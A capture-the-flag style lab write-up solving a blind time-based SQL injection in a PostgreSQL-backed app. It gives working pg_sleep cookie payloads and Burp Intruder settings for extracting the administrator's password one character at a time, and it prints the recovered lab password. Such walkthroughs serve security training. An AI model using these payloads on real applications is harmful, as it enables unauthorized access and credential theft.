 # Lab: Blind SQL injection with time delays and information retrieval
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution
The fundamentals are the same like in the lab before ([Visible error-based SQL injection](Visible_error-based_SQL_injection.md)).

So we can use a conditional query to make usage of the blind SQL injection. The query will delay if the condition is true.
```
TrackingId=HEmNuOdbcGF4dMy8' || CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END ||'
```

### Information gathering
#### Users table
As usual we have to verify that there is a table called 'users'. We can test that with the following query:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users) ||'
```

The `FROM` part of this statement will be executed first. If it has some return value, the `SELECT` part will be executed. Since `1=1` is everytime true, `pg_sleep(2)` will be executed. So if we get a delay, the table exists. If the table wouldn't exists, we won't get a delay.

We can verify it with a query like this:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM test) ||'
```
It won't create a response delay.

#### Administrator user
To check for the username 'administrator', we can simply add this `WHERE` clause:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
Same again, delay means the username exists, no delay means it doesn't.

#### Password length
Check for the password length:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN LENGTH(password)>1 THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
If we want to use Burp Intruder, than we have to adjust it's parameters. The query stays the same and we use the 'Numbers' payload type. But in the 'Resource pool' we have to use a pool with 'Maximum concurrent requests' of 1. Otherwise Burp would use multiple threads, which would falsify the response time. With that we can start the attack.

In results window, we have to select the tab 'Column' and activate the column 'Response received'. Now we can see the differences between the delayed and the not delayed functions.

The configuration and the results are shown below.

| Positions | Payloads | Resource pool | Results |
| --------- | -------- | ------------- | ------- |
| ![Positions](images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_0.png) | ![Payloads](images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_1.png) | ![Resource pool](images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_2.png) | ![Results](images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_3.png) |

#### Password character
Check for single characters:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

To automate this task we choose the attack type 'Cluster bomb' with the following query (take a look at the two § sections):
```
TrackingId=RNF8Kn129ihmCTHM' || (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

The first parameter gets the payload type 'Numbers' and the second one 'Brute forcer' with the characters [a-z] and [0-9]. The other settings will be the same. In the results we see the correct characters with the longer response time.

The process of the result will look like this:
![Results](images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_4.png)

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._

With that we found the password: `lm1d0xmmuclz30yg3oap`

Logging in with the found credentials will solve the lab.